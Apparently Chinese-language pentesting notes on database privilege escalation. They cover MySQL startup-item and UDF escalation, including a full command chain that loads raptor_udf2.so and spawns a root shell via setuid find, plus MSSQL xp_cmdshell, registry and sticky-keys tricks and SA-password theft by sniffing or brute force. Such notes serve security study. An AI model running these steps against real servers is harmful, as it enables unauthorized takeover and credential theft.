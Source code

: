 数据库提权——启动项提权 (这种方法不推荐)
Default
提权原理
使用mysql写文件，写一段vbs代码到开启自启动中。服务器重启的时候达到创建用户并提取。可以使用DDOS迫使服务器重启
提权条件
secure_file_priv不为null
已知账号和密码

linux系统-udf提权
Default
上传脚本进行监听
靶机连接数据库
查看版本
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chmod u+s /usr/bin/find');
find / -exec "/bin/sh" \;

Mssql数据库提权
在SA权限下
Default
存在xp_cmdshell时
使用xp_cmdshell执行命令添加用户，当出现错误可以恢复和开启
xp_cmdshell无法使用时
使用sp_OACreate执行命令，同样当出现错误可以恢复和开启
当执行命令无法使用时可以用沙盒提权 (使用xp_regwrite和openrowset)
当只有xp_regwrite可用时可以劫持粘滞键（sethc.exe)
使用xp_regwrite修改注册表
SA口令获取方法
Default
Webshell或源码获取
conn.aspx
config.aspx
config.php
web.config
.........
 
一般格式如：
server=localhost;
UID=sa;
PWD=shadowflow
 
 
源代码泄露
网站源码泄露情况主要以程序员上传代码到git等开源平台或更新代码时未删除备份文件(.svn、.git、.bak），以及运维人员打包源代码到网站服务器(www.rar等）。
 
 
嗅探
在局域网中使用cain等工具进行arp嗅探的时候可以抓取到1433端口的数据库明文登录密码
 
 
口令暴力破解
利用mssql暴力破解工具对mssql进行暴力破解，一旦成功将获得sa相应权限
DBA权限下
Default
备份到网站目录
通过备份文件到启动项提权
常用SQL Server提权语句
Default
查看数据库版本：select @@version
查看数据库系统参数：exec master..xp_msver;
查看用户所属角色信息：sp_helpsrvrolemember
查看当前数据库：select db_name()
显示机器上的驱动器：xp_availablemedia
 